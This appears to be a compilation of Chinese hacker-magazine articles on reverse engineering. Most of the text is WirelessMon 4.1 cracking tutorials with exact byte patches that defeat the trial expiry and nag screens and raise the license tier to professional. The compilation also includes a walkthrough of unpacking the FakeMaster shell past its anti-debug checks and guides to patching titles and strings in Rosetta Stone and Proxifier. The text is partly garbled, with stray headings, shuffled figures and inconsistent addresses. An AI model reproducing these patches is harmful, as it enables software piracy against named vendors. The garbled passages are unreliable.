好吧，程序分析到了这里，可以看出作者的验证是非常多的。如果跟着这样一步步地突破下去，估计是一个强大的体力活。如果单纯要爆破掉这个“continue”的话还得翻几层。不信么？好吧，我教你怎么突破这个“continue”。利用刚才介绍的暂停法，停在程序领空后，将鼠标点在段首，可以看到如下地方会调用这一过期信息代码段（如图6）。

```asm
004C20CF    A3 84A36B00             mov dword ptr ds:[6BA384],eax
004C20D3    833D 84A36B00 00        cmp dword ptr ds:[6BA384],0
004C20DA    74 23                   je short Wireless.004C20FF
004C20DC    E8 BFDEFFFF             call Wireless.004BFFA0
004C20E1    8B45 14                 mov eax,dword ptr ss:[ebp+14]
004C20E4    50                      push eax
004C20E5    8B4D 10                 mov ecx,dword ptr ss:[ebp+10]
...
```

```asm
0051AC05    74 50                         je short Wireless.0051AC57
0051AC07    C705 C4836C00 00000000        mov dword ptr ds:[6C83C4],0
0051AC11    E8 8A53FAFF                   call Wireless.004BFFA0
0051AC16    E8 8553FAFF                   call Wireless.004BFFA0
0051AC1B    68 10000400                   push 40010
0051AC20    6A 19                         push 19
0051AC22    68 381C6400                   push Wireless.00641C38
...
```

```text
0051AC3A  68 701C6400    push ...
Wireless.00641C70
0051AC3F  68 C0CA6C00    push ...
Wireless.006CCAC0    "UNICODE "Your license key is invalid. Please contact PassMark Software.""
0051AC44  E8 6765FAFF    call ...
Wireless.004C11B0
0051AC49  83C4 0C        add esp,0C
0051AC4C  50             push eax
0051AC4D  6A 00          push 0
0051AC4F  E8 0C74FAFF    call Wireless.004C2060
...
```

```text
修改前：0050028E   ... /7579
jnz short Wireless.00500309
修改后：0050028E   ... /EB79
jmp short Wireless.00500309

修改前：005003D9   ... /7442
je short Wireless.0050041D
修改后：005003D9   ... /EB42
jmp short Wireless.0050041D

修改前：0050025F   ...
jnz Wireless.00500393
修改后：0050025F   909090909090
nop

修改前：0051AAD3   ... /7567
jnz short Wireless.0051AB3C
修改后：0051AAD3   ... /EB67
jmp short Wireless.0051AB3C

修改前：0051AC05   ... /7450
je short Wireless.0051AC57
修改后：0051AC05   ... /EB50
jmp short Wireless.0051AC57
```


利用 Ctrl+G 转到每一个地址，根据不能被调用的原理去进行修改，详细各处的修改如下：

```text
修改前：004E3A7E   ... /7516
jnz short Wireless.004E3A96
修改后：004E3A7E   ... 9090
nop

修改前：004E3C79   ... /7516
jnz short Wireless.004E3C91
修改后：004E3C79   ... 9090
nop
```

经过以上分析和麻烦的修改，已经可以成功打开软件了，但是其实还有很多验证，单单从关于窗口就可以看到是多么不完美了（如图7）。


我现在这里卖个关子吧，程序验证多如牛毛，如果要一个个地突破是不现实的，但是作者也是人，所以作者也不会这么傻为每个验证去设计，那样作者也会累死。大家有思路了么？敬请期待本文的续集《找到根源，突破一切限制（绝杀篇）》。

# 大师的壳子，我来扯一扯

## Dintal

- 操作系统环境：Windows 7
- 目标程序：FakeMaster_v0.1c
- 目标程序大小：298 KB
- 工具：ExeinfoPE、Dintal-OD、Dintal-IR

前序：这个工具是 A·S·L 的作品，如有冒犯请各位多多原谅。本文只为了技术研究所需，并无其他目的。这个软件的作用是改变程序的特征码，使 PEiD 等工具不能检测到真正语言或壳。按照以往惯例，大师程序加的多是自己写的壳子，这次相信也是这样，好吧，脱壳开始（图1）。


图2


图3


图1

| 地址/段名 | 区段 | 描述 |
|---|---|---|
| FakeMast | UPX0 | PE header / SFX, code, import |
| FakeMast | UPX1 | data |
| FakeMast | .rsrc | resources |
| ... | ... | ... |

图4

按照国际菜鸟惯例，我们先来查壳，看看能查出什么来。这里用的是 ExeinfoPE，也是 A·S·L 大师的作品（图2）。

ExeinfoPE 显示“Unknown Packer-Protector, 3 sections like UPX S-Structure UPX!”。看着像 UPX 壳，但又不确定。那我们再看看区段长什么样子（图3）。

是不是觉得很像 UPX 的区段？对，也是 3 个区段。或者大家还没看出，我们就不用 PEiD 查了，直接 OD 载入，然后打开内存窗口来看看它究竟是什么样的区段（图4）。

看得很清楚了，前 3 个区段分别是 UPX0、UPX1 和 .rsrc。就是这些特征使 ExeinfoPE 认为这可能是个 UPX 壳子了。如果真的是 UPX 壳子，那么直接 ESP 定律就好。重载 OD，停在 004A7AA0 入口处，单步后 ESP 标志位变色，在命令窗口下 `hr esp`，F9 运行，接近 OEP 附近后可见如下代码：

```asm
004A8634    8D4424 80    lea eax, [esp+0x80]
```

# 黑莓编程


ESP 标志位变色了，然后在命令窗口下个 `hr esp` 定律，F9 运行。这时惊奇地发现，硬件断点没能断下来，程序直接运行起来了，所以这里只是 ASPACK 的特征而不是真正的 ASPACK，那该怎么办呢？我们先在 004A4000 这个假“OEP”处下个硬件执行断点（图6）。


图6

到了这里也是和 UPX 一模一样的，如果真的是 UPX 的话，004A8641 位置的跳转就会跳到 OEP 了。我们取消硬件断点，在 004A8641 下断，F9 来到这里，然后单步 F8 试试，发现来到了 004A4000，样子一点也不像 OEP。

当然，之前下的硬件断点就不要了，删了，只留下新下的硬件执行断点；然后重载程序，F9 运行，断下来了。我们来单步走；来到 004A4001 的时候如果 F8 步过的话程序就会运行了，所以要 F7 进去；向 OEP 靠近，进去后在 004A4009 处，一直 F8 通过 004A4009 的 RETN 返回到 004A4007，然后继续单步走，004A400D 处的 CALL 也是要进去的，否则程序也会运行。


不管怎么样，我们 Dump 下来，用 IR 修饰特征、修复一下 IAT。可惜的是，这里 IR 说是无效的 OEP（图5）。


图5

的确，相信很多菜鸟都看得出，这个 UPX 带到的“OEP”十分像 ASPACK 的壳子，难道就是简单的双层压缩壳？我们再来用一次 ESP 定律吧，单步一下 F8，发现 ESP 标……


让我们的调试器被程序发现了，程序就带我们走弯路了，A-S-L 大师的东西就是不同啊。我是怎么过他的 Anti 的呢？StrongOD 已经无用了，过不了他的 anti。我的方法很简单，在我们原来 F4 不了的那一行 004A4025 下硬件执行断点，然后重载程序。Shift+F9 就可以停下来了，估计是中途不能停，一停了就会使 004A4023 处的跳转实现。好的，下面继续 F8 前进，在 004A4041 和 004A4052 的地方 F4 可以过掉往上的跳转：

直到 004A4023 处出现了向上的跳转，按照国际菜鸟惯例，是不能让它向上跳的，在下一行按 F4 打断它吧，可是这个不是一般的程序，当 F4 按下后，程序出错了（图7）。


图7

这时我们在 004A4023 下硬件执行断点，重装程序，运行到 004A4023 这里。我们分析一下，在下一行按 F4 程序出错是为什么呢，难道是一定要向上跳的吗？好吧，我们单步跟着它向上走，发现单步一步后停在这里：


如果再一步就会跳到空白区域了，然后就会出现刚才的错误。猜想一下，不能向上走，但在 004A4023 下一行 F4 也不行，是为什么呢？这里我要先解析一下 F4 是怎么一个过程：F4 的意思是一直运行，直到运行到目标地址；如果一直没有到目标地址，程序就一直运行下去。对比单步走和 F4 两次尝试都是出现同一个错误，也就可以判断前后两次走的是相同的路。换句话说，程序要正常运行是必须向下走的，而且这个向下走的过程中 004A4023 处的跳转不能实现，估计是这样的。


然后继续 F8 走过，去到 004A4061 的时候发现向上的跳转。这里经过多次调试发现和之前一样是 anti，所以还是老方法，在下一行下硬件执行断点，重载程序，运行，断下：


这时继续 F8，走几步就到 OEP 入口了：


# 黑客编程

```asm
004A406E  C3  retn
飞向光明之城 OEP
004A406F
test eax, 0A3ABB8
```

```asm
add esp, -10
0047F862
mov eax, FakeMast.0047E3FC
0047F867
call FakeMast.004065C0
...
call FakeMast.004614C4
...
mov eax, dword ptr ds:[482FC4]
mov eax, dword ptr ds:[eax]
```

OEP是0047F85C，明显的Delphi程序入口特征，我们用OD的脱壳插件DUMP下来，然后用Dintal-IR修复一下，填好OEP，自动获取就好了，全部IAT指针有效（图8）。

修复后抓取，程序正常运行，OK，脱壳成功。查了一下壳子，果然是Delphi的^^。


```asm
0047F85C    55        push ebp
Delphi程序入口特征
0047F85D    8BEC      mov ebp,esp
0047F85F    83C4 F0
```

后记：当我们遇到未知壳的时候，第一步要做的是让自己冷静下来，别觉得烦，别害怕。以上的壳子最难的就是StrongOD也反不了的anti，只要这一点过了，其他就都是浮云了，希望大家有所收获。

> （文中涉及的相关软件及代码本期光盘已收录）

## 找到根源，突破一切限制（继杀篇）

- 操作系统环境：Windows XP
- 目标程序：WirelessMon 4.1
- 目标程序大小：3.91MB
- 工具：ExeinfoPE、Dintal-OD

接上一回：本文是前期文章“找到根源，突破一切限制（碰钉篇）”的续集。在“碰钉篇”中我尝试突破每一项功能限制，最终因功能限制太多，我接近累垮了才能勉强破解掉30天试用限制，相信很多菜鸟和我一样当开了一个坑……

就喜欢往下拼命挖，总以为凭着自己的努力最终可以挖到宝藏；没错，宝藏是挖到了，但是挖到的时候自己都已经累死了，挖出来的宝藏也是坏的。……本文的目的就是和大家分享一下，更完美地破解这个软件的方法，坚决不选累死人的方法。以下介绍的方法是从软件的验证“根部”着手，只要“根部”被我们找到了，那一切都迎刃而解了。下面，Let's begin。

在“砸钉篇”中已经提到，本软件是无壳的Microsoft Visual C++ 8，为什么作者连压缩壳都不加呢？原因很简单，压缩壳的优点是降低软件大小，但由于加壳后的软件在运行的时候会先解压，这无疑就会导致软件的启动速度下降，而这个软件的启动时间本身就已经很久了，因此正确点说，这个软件不适宜加壳。因此作者才会无奈之下设置了n多的校验来保护程序。而这n多的保护却非常失败地通过验证少数几个地方的数据来判断是否通过验证，换而言之，这些被验证的数据就是这个软件保护的死穴，一旦这些数据被修改了，那这个软件的所有限制都将被解锁。

下面开始找这条“金钥匙”吧。为了体现这个软件30天到期后的限制，我把系统时间修改到两个月后，运行软件后，软件提示过期了。OD载入软件开始分析，F9运行，当程序显示提示窗口（图1）。

```asm
跳过过期提示

004E2327    68 88968600      push Wireless.006898B8
004E232C    E8 1FD7FFFF      call Wireless.004DFA50
004E2331    83C4 04          add esp,4
004E2334    8985 A8F5FFFF    mov dword ptr ss:[ebp-A58],eax
004E233A    8B95 A8F5FFFF    mov edx,dword ptr ss:[ebp-A58]
004E2340    8995 64F7FFFF    mov dword ptr ss:[ebp-89C],edx
004E2346    68 50976800      push Wireless.00689750
004E234B    E8 00D7FFFF      call Wireless.004DFA50
004E2350    83C4 04          add esp,4
004E2353    8985 A4F5FFFF    mov dword ptr ss:[ebp-A5C],eax
004E2359    8B85 A4F5FFFF    mov eax,dword ptr ss:[ebp-A5C]
004E235F    8985 68F7FFFF    mov dword ptr ss:[ebp-898],eax
004E2365    68 00000400      push 40000
004E236A    8B8D 68F7FFFF    mov ecx,dword ptr ss:[ebp-898]
004E2370    51               push ecx
004E2371    8B95 64F7FFFF    mov edx,dword ptr ss:[ebp-89C]
004E2377    52               push edx
004E2378    A1 34BDC600      mov eax,dword ptr ds:[6CBD34]
004E237D    50               push eax
004E237E    FF15 20655800    call dword ptr ds:[<&USER32.MessageBoxA>]
```


图1

的时候，按下F12暂停下来，然后Alt+F9，按下软件“确定”按钮，返回到程序领空（图2）。


图2

往上翻代码，可以发现004E237E处就是刚才调用过期提示框的函数，在正常注册的情况下这个地方是不会被执行的，因此往上找看看有没有可以跳过的跳转，这是“砸钉篇”用过的一般方法，通过代码：

```asm
004E2315    0381 9C020000    add eax,dword ptr ds:[ecx+29C]
004E231B    3985 6CF7FFFF    cmp dword ptr ss:[ebp-894],eax
对比内存地址和eax的值，eax小于内存值则不跳
004E2321    0F8E B1000000    jle Wireless.004E23D8
```

```asm
过期提示1

004E2384    8B8D 64E7FFFF    mov ecx,dword ptr ss:[ebp-89C]
返回到这里：
004E238A    51               push ecx
```

```asm
004E232D    90    nop
004E232E    90    nop
004E232F    90    nop
004E2330    90    nop
```

上面的代码是利用赋值语句把eax的值赋值给进行比较的内存地址，那样内存中的地址就会永远等于eax的值，也就是时刻满足JLE实现跳转的条件，修改完成成功过掉第一个过期提示，来到第二个窗口，点“continute”弹出提示（图3）。


图3

下面可以继续分析这个“continute”错误提示了，由“碰钉篇”可知，这个“continute”按钮是由n个地方验证的，如果一个个爆破掉，就会累死了。这里我们先来找到相应位置，当到期提示框出现的时候，按下F12暂停下来，然后Alt+F9，按下软件“确定”按钮，返回到程序领空（图4）。


图4

在004E2321处看到JLE可以跳过过期提示，而JLE是根据上面的004E231B处 `cmp dword ptr ss:[ebp-894],eax` 通过对比内存地址和eax的值，eax小于内存值则不跳。可以判断出这个就是用系统时间与软件规定的30天时间进行对比，当系统时间大于软件的时间就会提示软件试用过期了。这里把004E231B处指向的内存地址设置为少于或等于eax的值就可以了，那样无论如何eax的值都会大于内存的值了。这里我们这样修改：

分析代码：

```asm
004E231B    8985 6CF7FFFF    mov dword ptr ss:[ebp-894],eax
先将eax的值赋给内存地址，那样内存地址就永远等于eax的值

004E2321    3985 6CF7FFFF    cmp dword ptr ss:[ebp-894],eax
可以跳过过期提示

004E2327    0F8E AB000000    jle Wireless.004E2308
```

```asm
004C20CE    A3 84A36B00       mov dword ptr ds:[6BA384],eax
004C20D3    833D 84A36B00 00  cmp dword ptr ds:[6BA384],0
内存地址的值跟0对比，如果等于0则不跳
004C20DA    74 23             je short Wireless.004C20FF
004C20DC    E8 BFDEFFFF       call Wireless.004BFFA0
004C20E1    8B45 14           mov eax,dword ptr ss:[ebp+14]
004C20E4    50                push eax
004C20E5    8B4D 10           mov ecx,dword ptr ss:[ebp+10]
004C20E8    51                push ecx
004C20E9    8B55 0C           mov edx,dword ptr ss:[ebp+C]
004C20EC    52                push edx
004C20ED    8B45 08           mov eax,dword ptr ss:[ebp+8]
004C20F0    50                push eax
004C20F1    FF15 84A36B00     call dword ptr ds:[6BA384]
...
004C20F7    8945 FC           mov dword ptr ss:[ebp-4],eax
004C20FA    E8 910CFFFF       call Wireless.0048FD90
004C20FF    8B4D F8           mov ecx,dword ptr ss:[ebp-8]
```

```asm
修改前:004E3C79    |.  /7516
jnz short Wireless.004E3A96
修改后:004E3A7E      9090
nop

修改前:004E3C79
jnz short Wireless.004E3C91
修改后:004E3C79      9090
nop
```

可以知道，在004C20D3处内存地址的值跟0对比，如果相等下面的je则跳，则可以过掉提示框的其中一个验证。因此我们来实验一下修改这个内存里的值，这里需要等于0的，修改代码如下：

```asm
004C20D3         C705 84A36B00 FF00    mov dword ptr ds:[6BA384],0
004C20DD         833D 84A36B00 00       cmp dword ptr ds:[6BA384],0
004C20E4         7E 14                  jle short Wireless.004C20FA
004C20E6         90                     nop
004C20E7         90                     nop
004C20E8         90                     nop
004C20E9         90                     nop
004C20EA         90                     nop
004C20EB         90                     nop
```

```asm
修改前:0050028E    |. /7579
jnz short Wireless.00500309
修改后:0050028E      /EB79
jmp short Wireless.00500309

修改前:005003D9    |. /7442      je short Wireless.0050041D
修改后:005003D9      /EB42
jmp short Wireless.0050041D

修改前:0050025F    |. /0F852E010000
jnz Wireless.00500393
修改后:0050025F      909090909090
nop

修改前:0051AAD3    |. /7567
jnz short Wireless.0051AB3C
修改后:0051AAD3      /EB67
jmp short Wireless.0051AB3C

修改前:0051AC05      /74 50
je short Wireless.0051AC57
修改后:0051AC05      /EB 50
jmp short Wireless.0051AC57
```

修改完后运行软件发现软件不提示任何东西了，但是却未能正式启动过掉“continute”。原因我在“碰钉篇”中说得很清楚了，要过这个“continute”的话需要修改非常多的代码，而具体是哪些代码，我在“碰钉篇”中也逐一列出了，追踪方法也提及了，这里我把主要代码的具体位置再列出一遍。

由于这n多的验证都是依靠内存中的一个地址上的值进行判断的，因此这次我只需要从其中一处着手，去寻找这个值，而不需要像“碰钉篇”那样每处都得修改。我们先重新载入程序，对上面的每处下断，然后运行程序，触发“continute”事件，发现在005003D9（图5）尝试修改这里使之实现跳转，我们利用赋值法作如下修改：

```asm
修改前:004E3A7E      /7516
jnz short Wireless.004E3A96
修改后:004E3A7E      9090
nop
```

```asm
005003D2        C705 10836C00 0000   mov dword ptr ds:[6C8310],0
对比内存地址的值与eax是否为0，为0则下面的跳转实现
005003DC        833D 10836C00 00     cmp dword ptr ds:[6C8310],0
005003E3        74 38                je short Wireless.0050041D
005003E5        90                   nop
005003E6        90                   nop
005003E7        90                   nop
005003E8        90                   nop
```

我们的程序就是最高权限，拥有打印功能的使用权。我们记下这个内存地址6C64A4，重新载入程序，在命令窗口输入 `db 6C64A4`，然后在第一行选择4个字节进行下断，我在这里是下内存访问断点（图8）。


跳过去运行程序却发现程序进入主界面了，但是会出现错误。这说明什么呢？这个跳转是可以直接改jmp的，而这个内存地址是不能被赋值为0的，估计这里是作者设置的陷阱。因此正确的改法只需要把jc改为jmp就好了。原来“continute”是可以穿这个按钮过掉的，在“碰碰篇”里的确碰钉得太多了，呵呵。

但是别开心得太早，还有很多验证等着我们呢。看看左上角的标题，我们知道现在只是试用版本的权限，测试了一下功能发现不能打印（图6）。

然后Shift+F9忽略所有异常运行，中断在00501056，这里的命令很明显，利用内存地址的值和0作对比。经过多次调试可以知道，当内存的数值为0的时候是试用版，为1的时候为一般版，为2的时候为专业版，因此我们可以将命令改为：


```asm
00501056        C705 A464C000 0000 > mov dword ptr ds:[6C64A4],0

改为：
00501056        C705 A464C000 0000 > mov dword ptr ds:[6C64A4],2
```

下面就要开始分析它的用户版本了，还是F12暂停法吧。当不能打印的那个提示窗口出现的时候，按下F12暂停下来，然后Alt+F9，按下软件“确定”按钮，返回到程序领空（图7）。

那样程序启动的时候就是专业版的了。其实除了利用上面的限制外，我们还可以根据注册码不会显示Nag这个特点去找寻破解的关键点。由于方法和原理相同，这里不再多说，直接给出要攻破这个软件的Nag所要修改的最少代码：


```asm
0051AB57        /0F85 70010000      jnz Wireless.0051ACCD

修改为：
0051AB57        /E9 7101000090      jmp Wireless.0051ACCD
```

这里的代码是关键了，在005032A5这里，内存地址的值与2比较，如果等于2则跳转实现，也就是这个内存地址的值就是判断用户是什么权限的数值。只要等于2了，我们的程序就是最高权限，拥有打印功能的使用权。

好了到此为止，Everything is OK。来张最后的合照（图片9）。

后记：逆向博大精深，每个人都有自己的成长之路，当中少不了坚持和执着。但是在 Cracker 的眼中，单一方向的坚持和执着是不可取的。此文仅献给那些坚持在黑暗中还没找到出路的 Cracker。

图9

# 简单逆向分析修改软件标题

枯叶

受人之托，替人办事，修改一个软件的标题。虽然修改一个标题比较简单，但是在简单的任务面前也有一些知识点可以供我们学习。我们此次要修改的软件文件名为“RosettaStoneVersion3.exe”，是一款学习英语的软件。修改标题的要求是必须以该文件启动，也就是说不能以其他外挂式的软件启动（不能增加额外的启动文件）。仅此一个要求。当然了，除了这个要求外，就是要将原标题“Rosetta Stone Version 3”修改为“MoNi YingYu XueXi XiTong”。我们来完成这个简单的任务，下面是我分析该软件的思路及详细步骤。

> **小知识：**
- VC++ 编译生成的文件有两种版本：一种是调试版（Debug 版），一种是发布版（Release 版）。调试版本的程序中有大量调试信息，且生成的二进制机器码没有经过任何优化。由于代码没有进行优化，故而方便通过反汇编形式进行调试，因此该版本方便软件在未发布前进行测试调试。发布版本的程序中不存在调试信息，而且代码被编译器进行了大量优化，因此发布版运行效率更高、体积更小。
- 附加数据（Overlay）是在 PE 文件所有节区后面的那部分文件。了解该内容需要了解 PE 文件格式，在此不做介绍。

拿到一个可执行文件不要忙着放入 OD 或者 IDA 中，首先要查壳。否则直接放到 OD 中进行调试会晕死在外壳的“迷宫”当中。我们用 PEiD 对“RosettaStoneVersion3.exe”进行查壳，结果是“Microsoft Visual C++ 7.0 [Debug] [Overlay]”，如图1所示。

图1

从查壳结果中我们可以看出，该程序是 VC++ 7.0 编译链接生成的一个调试版程序，并且有附加数据。

既然该程序没有壳，那么 PE 格式中的资源可以通过各种资源编辑器进行修改编辑。这里使用的资源编辑工具是“Resource Hacker”。将“RosettaStoneVersion3.exe”拖拽到 Resource Hacker 中，查看左边树形控件“Dialog”节点中的内容，如图2所示。从图2列出的三个对话框资源中查找我们要的对话框，但是在“Dialog”节点中并没有我们要找的资源。在 Resource Hacker 的“bin”节点中保存着 3 个二进制文件，并且通过查看这 3 个二进制文件的机器码得知，第一个和第三个文件是 PE 文件，也就是可执行文件。我们通过 Resource Hacker 将这三个二进制文件单独保存出来，然后继续查看资源，通过我的查看，同样也并没有找到我们需要的资源。

图2

我们用 OD 打开“RosettaStoneVersion3.exe”，直接运行该程序。当程序启动以后我们搜索 ASCII 字符串，在搜索到的字符串中查找当前标题，可惜没有找到。继续使用 UNICODE 进行查找，同样也没有查找到。由于没有找到字符串，因此重新打开该程序并运行，发现当程序的标题栏和程序界面出现以后，才会出现标题文字。我有了新的思路：再次重新打开该程序，然后设置 API 断点“bp SetWindowTextW”。也就是说我认为该软件标题可能是使用 SetWindowTextA 或者 SetWindowTextW 设置上去的，而不是在编程时直接通过资源设置好的。设置好 API 断点后运行程序。第一次中断在 SetWindowTextW 函数处时，观察接口，并不是我们要找的断点，让它继续运行。当第二次中断到 SetWindowTextW 函数处时，正是我们要找的地方，查看 OD 的栈窗口，如图3所示。从栈窗口中看到了我们要的标题字符串。我们显示“00E689B8”处的内存数据到 OD 的数据窗口中，如图4所示。从图4可以看出，字符串是以 UNICODE 形式保存的，只要直接修改程序文件中该位置的 UNICODE 字符串就可以达到修改标题的目的。我们用 LordPE 查看该虚拟内存地址所对应的文件偏移地址。用 LordPE 打开“RosettaStoneVersion3.exe”，通过“位置计算器”计算“00E689B8”虚拟内存地址的文件偏移地址，却提示“超出范围”，如图5所示。这说明程序中没有与“00E689B8”对应的文件偏移地址。我们回到 OD 中通过内存窗口查看“00E689B8”所属位置，如图6所示。从图6可以看出，该虚拟内存地址应该是一块堆地址，堆是进程动态申请到的内存地址。因此，无法通过直接修改可执行文件来修改该地址的字符串，因为文件中没有与此地址对应的文件偏移地址；同样也无法通过直接修改该虚拟内存地址来保存修改结果，因为修改后堆地址无法保存到程序文件中，下次启动时仍然无法显示我们修改后的标题。

图3  
图4  
图5  
图6

通过上面的分析，我们发现直接靠资源编辑器修改程序标题可能已经不是最好的方法了，该改变思路了。该程序除了一个 .EXE 可执行文件外，还有几个 .DLL 文件。也许我们需要的资源在某个 DLL 文件中，但是不应该再去那些 DLL 文件中逐个寻找可修改资源，因为 DLL 文件较多，会降低效率。

既然上面的方法不行，我们就从代码上做手脚。按下 ALT+F9 返回对 SetWindowTextW 函数的调用，看其反汇编代码如下：

```asm
00404646  CC               INT3
00404647  CC               INT3
00404648  CC               INT3
00404649  CC               INT3
0040464A  CC               INT3
0040464B  CC               INT3
0040464C  CC               INT3
0040464D  CC               INT3
0040464E  CC               INT3
0040464F  CC               INT3
00404650  8B4424 04        MOV EAX,DWORD PTR SS:[ESP+4]
00404654  8378 18 08       CMP DWORD PTR DS:[EAX+18],8
00404658  72 11            JB SHORT 0040466B
0040465A  8B40 04          MOV EAX,DWORD PTR DS:[EAX+4]
0040465D  50               PUSH EAX
0040465E  8B41 60          MOV EAX,DWORD PTR DS:[ECX+60]
00404661  50               PUSH EAX
00404662  FF15 44F44B00    CALL DWORD PTR DS:[<&USER32.SetWindowTextW>]
00404668  C2 0400          RETN 4
```

SetWindowTextW 函数有两个参数，第二个参数是指向字符串的指针。从反汇编代码看，调用 SetWindowTextW 时，第二个参数入栈地址在 0040465D，也就是 `PUSH EAX` 这句代码。也就是说 EAX 中保存的是标题的 UNICODE 字符串地址，只要将 EAX 中保存的地址改为我们新字符串所在地址即可。

既然有了新思路，就在程序中找一处空白位置添加目标字符串。可是 SetWindowTextW 需要的是 UNICODE 字符串，而不是普通 ASCII 字符串。如何得到“MoNi YingYu XueXi XiTong”的 UNICODE 编码？我们打开文本编辑器输入该字符串，保存文本时在通用对话框最下面选择编码方式为“UNICODE”，如图7所示。然后用 C32ASM 打开该文本，就可获得该字符串的 UNICODE 编码，如图8所示。

我们在哪个位置保存字符串呢？在 PE 文件中有很多地方可保存。用 LordPE 打开程序，查看各区段，选择在“.rdata”段中保存字符串。为了方便找到 .rdata 段中的空白位置，我们从 .data 起始位置向上找，如图9所示。用 C32ASM 打开可执行程序，来到 .data 段对应文件偏移 000EF000，看到该地址上方有空白位置，于是在文件偏移 000EEFB0 处插入字符串的 UNICODE 编码并保存，如图10所示。再用 LordPE 打开添加过字符串后的文件，计算文件偏移地址对应的虚拟内存地址，文件偏移“000EEFB0”对应虚拟内存地址为“004EEFB0”。

我们既然有了字符串的虚拟内存地址，就可以改变前面提到的 EAX 中保存的地址。用 OD 打开添加过字符串的可执行文件，来到 00404646 地址处，修改反汇编代码如下：

```asm
00404646  B8 80EF4E00      MOV EAX,004EEFB0
0040464B  90               NOP
0040464C  EB 0F            JMP SHORT 0040465D
0040464E  CC               INT3
0040464F  CC               INT3
00404650  8B4424 04        MOV EAX,DWORD PTR SS:[ESP+4]
00404654  8378 18 08       CMP DWORD PTR DS:[EAX+18],8
00404658  72 11            JB SHORT 0040466B
0040465A  EB EA            JMP SHORT 00404646
0040465C  90               NOP
0040465D  50               PUSH EAX
0040465E  8B41 60          MOV EAX,DWORD PTR DS:[ECX+60]
00404661  50               PUSH EAX
00404662  FF15 44F44B00    CALL DWORD PTR DS:[<&USER32.SetWindowTextW>]
00404668  C2 0400          RETN 4
```

我们将原来对 `EAX` 进行赋值的位置修改为了 `JMP` 指令，然后跳转到上面的 `00404646` 地址处。修改后直接保存反汇编代码，运行程序后标题处已经成为新的标题。

通过反复分析，我们完成了对该软件标题的修改。在过程中涉及逆向与 PE 文件格式知识，但本文不作深入展开，仅做整理供参考学习。

首先，应掌握 `SetWindowText` 函数的使用，并理解 `SetWindowTextA` 与 `SetWindowTextW` 的区别（ASCII 与 Unicode 编码差异）。

其次，需要掌握反汇编中的函数调用约定。绝大多数 Windows API 采用 `stdcall`，参数从右到左入栈，平衡栈操作由被调函数完成。

最后，要熟悉 PE 文件三种地址换算：虚拟地址（VA）、相对虚拟地址（RVA）和文件偏移（FileOffset）。

本文后半篇将继续展开，期望对读者有启发与帮助。

# 云端中的汉化（准确定位技巧）

Dintal

- 操作系统环境：Windows XP
- 目标程序：Proxifier Portable Edition v3.0
- 目标程序大小：3.79 MB
- 工具：ExeinfoPE、Dintal-OD、PExplorer

前言：汉化过程中常遇到“字符串找不到”的情况。菜单与对话框都翻译后仍无法定位目标资源，这时可借助 OllyDbg 修改字符串实现汉化。

本文以 Proxifier Portable Edition v3.0 为例。程序启动后会在右下角托盘生成图标（图1），浏览网页时图标出现彩色流动表示有流量经过（图2）。

若在托盘图标上右键并点击“Exit”，会弹出提示框，其标题正是本次要汉化的目标（图3）。

直接全量修改菜单与对话框字符串并不高效，因为目标文字可能并不在这些资源中。需要通过调试方式准确定位真正的字符串来源。

下面汉化开始：首先根据国际惯例先查壳，这里用的是 ExeinfoPE，查出来是“Microsoft Visual C++ 9.0 - Visual Studio 2008 (E8)”，也就是一个无壳程序。但是必须强调，VC++ 程序在 Win7 里会重定位，因此如果不是在 Windows XP 系统上操作的同学们，就要注意重定位。

下面 OD 载入，入口是标准的 VC++ 入口。

由于要修改的标题属于对话框，所以先拦截对话框，下断点 `bp MessageBoxW`，然后运行程序，在浏览器随便浏览些网页，让软件产生流量，再右键点托盘的“Exit”，成功拦截下来（图5）。然后可以在堆栈窗口发现我们要修改的标题“Proxifier Portable”。这时在堆栈窗口该行点右键，数值窗口跟随（图6）。

然后对数据窗口尝试修改，“二进制-编辑”，随意修改成你喜欢的字符串，记得勾选保留原大小，确定（图7）。

再次激发对话框事件，的确修改成功了（图8）。

但是很遗憾，这样修改只是内存中修改，不能保存。不信可以在数据窗口尝试保存，连保存按钮都没有。那应该怎样修改呢？先分析一下：经过刚才尝试后，我们可以肯定改那个位置是对的。至于无法保存，是因为数据窗口里的字符串是程序启动运行后才写进去的，而不是原来就静态存在的，所以即便改了也无法保存。若真的要改，就要找出是谁往这个数据地址里写字符串；只要找到写入点并在那里修改，就可以保存。然后重新载入程序，先把除硬件断点以外的其他断点删除，再运行程序，断下来了。

这时在命令窗口输入：`db 00DC77A8` 看看字符串被写入了没有，发现还没有写入，然后再次运行，直到字符串开始被写入为止。我这里按了 3 次，数据窗口出现了第一个字符“P”（图10）。

图9  
图10

这时在堆栈窗口的 `0012F8D4` 处点右键，返回到汇编窗口（图11）。

图11

可以大概分析代码的意思：

```asm
00526CF4  |. 50            PUSH EAX
; 下断点
00526CF5  |. 68 00E00000   PUSH 0E000
; 填入一个值 0E000
00526CFA  |. E8 D08CF4FF   CALL Proxifie.0046F9CF
00526CFF  |. 85C0          TEST EAX,EAX
00526D01  |. 74 09         JE SHORT Proxifie.00526D0C ; 跳转不实现
00526D03  |. 8D85 ECF9FFFF LEA EAX,DWORD PTR SS:[EBP-614]
00526D09  |. 50            PUSH EAX
00526D0A  |. EB 03         JMP SHORT Proxifie.00526D0F
00526D0C  |> FF76 60       PUSH DWORD PTR DS:[ESI+60]
```

```asm
00526D0F |> E8 A10E0500    CALL Proxifie.00...
577BB5                  ; 对数据窗口进行填写
00526D14 |. 8946 50        MOV DWORD PTR DS:[ESI+50],EAX
; 反汇编窗口跟踪到这里
```

我们在 `00526CF4` 处下断点，然后删掉硬件断点，重载程序，F9 运行，断在 `00526CF4` 处。单步向下走时发现唯一压入堆栈的可疑值就是 `00526CF5` 处填入的 `0E000`。利用寄存器窗口转换一下（图12），发现有符号数是“57344”，看来这就是字符串 ID 了。

这时用 OD 的跟踪就告一段落了。下面打开“PE-Explorer”，把程序拖进去，然后 `Ctrl+F` 查找“57344”，发现定位在一个“Proxifier Portable”的字符串位置，前面的 ID 正是“57344”（图13）。

下面不用我教了吧，改掉保存就好。这样就达到了在无数个相似资源 ID 中寻找指定字符串的目的。

后记：当面对多如牛毛的字符串，我们只要找到了就可以改到，这个说法对不对呢？不对。若把一个复杂字符串拆成很多段写入，那你即使找得到也改不全，还是会累死。又说我卖关子了吧？呵呵，对的，上文只是汉化中定位的高级方法。至于修改的高级方法，那就要数动态修改了。若有兴趣，敬请期待下一期“云海中的汉化（动态修改技巧）”。

图12  
图13

> （文中涉及的相关软件及代码本期光盘已收录）

# 菜鸟也来编写远控

imjianyou

